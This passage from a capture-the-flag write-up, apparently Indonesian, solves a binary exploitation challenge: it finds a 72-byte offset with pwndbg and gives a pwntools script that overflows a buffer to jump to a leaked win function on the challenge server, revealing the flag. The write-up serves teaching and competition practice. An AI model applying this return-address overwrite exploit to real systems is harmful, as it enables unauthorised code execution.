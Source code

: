 ```c=
  printf("Congrats! Here's your flag: %s", s);
  fclose(stream);
  exit(0);
}
```

- Well, mirip bgt kan. Langsung aja kita cari offset ke saved $EBP pakai `pwndbg`:

```bash
pwndbg -q ./chall
break *vuln+65
break *vuln+77
cyclic 100
run
ni
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

cyclic -l saaa
Found at offset 72
```

- Oke, offsetnya masih sama kita pakai solver script sebelumnya tapi kali ini saya bakal ambil leak win function biar meminimalisir kesalahan di remote server.

```python=
from pwn import *

context.binary = ELF("./chall", checksec=True)
exe = context.binary
host, port = "195.154.94.231", 50150

io = remote(host, port)
leak_win = int(io.recvline().strip().split()[-1], 16)
io.recvline()

log.info(f"Leak win func: {hex(leak_win)}")

payload = flat(
	b"A"*72,
	p32(0xdeadbeef),
	p32(leak_win),
)

io.sendline(payload)
io.interactive()
```

### Flag

==ITECHNO2025{PWN_M3d1UM_k0k_Ga4mpan6}==

# Web Exploitation
